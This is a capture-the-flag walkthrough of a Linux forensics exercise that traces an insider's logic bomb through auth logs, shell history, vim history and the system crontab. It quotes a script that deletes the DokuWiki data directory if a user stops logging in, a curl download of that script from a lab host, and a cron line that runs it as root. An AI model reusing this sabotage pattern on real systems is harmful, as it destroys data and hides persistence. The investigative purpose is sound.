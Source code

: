 # Disgruntled
> use your linux forensic knowledge ( pre req: https://tryhackme.com/room/linuxforensics)


## Tasks

Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.

My advice: Look at the privileged commands that were run. That should get you started.

Answer the questions below
- The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

```bash
grep sudo /var/log/auth.log | grep install

# OUTPUT
Dec 28 06:17:30 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; CO
MMAND=/usr/bin/apt install dokuwiki
Dec 28 06:19:01 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; CO
MMAND=/usr/bin/apt install dokuwiki
Dec 28 06:20:55 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; CO
MMAND=/bin/chown www-data:www-data /usr/share/dokuwiki/VERSION /usr/share/dokuwiki/bin /usr/sh
are/dokuwiki/doku.php /usr/share/dokuwiki/feed.php /usr/share/dokuwiki/inc /usr/share/dokuwiki
/index.php /usr/share/dokuwiki/install.php /usr/share/dokuwiki/lib /usr/share/dokuwiki/vendor 
-R
```

- What was the present working directory (PWD) when the previous command was run?
```
/home/cybert
```

---

Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.

Which user was created after the package from the previous task was installed?
```bash
grep sudo /var/log/auth.log | grep adduser 
# output
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; CO
MMAND=/usr/sbin/adduser it-admin
```
Answer: it-admin


A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)
```bash
root@ip-10-10-129-127:~# grep sudo /var/log/auth.log | grep visudo
# output
Dec 22 07:58:24 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
```
Answer: Dec 28 06:27:34

A script file was opened using the "vi" text editor. What is the name of this file?
```bash
grep sudo /var/log/auth.log | grep vi
# output
Dec 22 07:58:24 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:29:14 ip-10-10-168-55 sudo: it-admin : TTY=pts/0 ; PWD=/home/it-admin ; USER=root ; COMMAND=/usr/bin/vi bomb.sh
Dec 28 07:14:27 ip-10-10-243-54 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/service sshd restart 
```
answer: bomb.sh

---

**Bomb has been Planted**

That bomb.sh file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

What is the command used that created the file bomb.sh?
```bash
# from the previous task we know it's it-admin
cat /home/it-admin/.bash_history
# output
whoami
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
ls
ls -la
cd ~/
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
sudo vi bomb.sh
ls
rm bomb.sh
sudo nano /etc/crontab
exit
```
Answer format: curl 10.10.158.38:8080/bomb.sh --output bomb.sh

The file was renamed and moved to a different directory. What is the full path of this file now?
```bash
# we know attacker uses vi
cat /home/it-admin/.viminfo | grep saveas
# output
:saveas /bin/os-update.sh
|2,0,1672208983,,"saveas /bin/os-update.sh"
```
Answer format: /bin/os-update.sh


When was the file from the previous question last modified? (Format: Month Day HH:MM)
```bash
ls -la /bin | grep os-update
#output
-rw-r--r--  1 root root     325 Dec 28  2022 os-update.sh
```
Answer: Dec 28 06:29


What is the name of the file that will get created when the file from the first question executes?
```bash
root@ip-10-10-129-127:~# cat /bin/os-update.sh 
# 2022-06-05 - Initial version
# 2022-10-11 - Fixed bug
# 2022-10-15 - Changed from 30 days to 90 days
OUTPUT=`last -n 1 it-admin -s "-90days" | head -n 1`
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r" >
 /goodbye.txt
fi
```
---

**Following The Fuse**
So we have a file and a motive. The question we now have is: how will this file be executed?
Surely, he wants it to execute at some point?

```bash
root@ip-10-10-129-127:~# cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow usercommand
17 ** * *root    cd / && run-parts --report /etc/cron.hourly
25 6* * *roottest -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.da
ily )
47 6* * 7roottest -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.we
ekly )
52 61 * *roottest -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.mo
nthly )
0 8* * *root/bin/os-update.sh
#
```

---

**Conclusion**

Thanks to you, we now have a good idea of what our disgruntled IT person was planning.

We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.

Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.


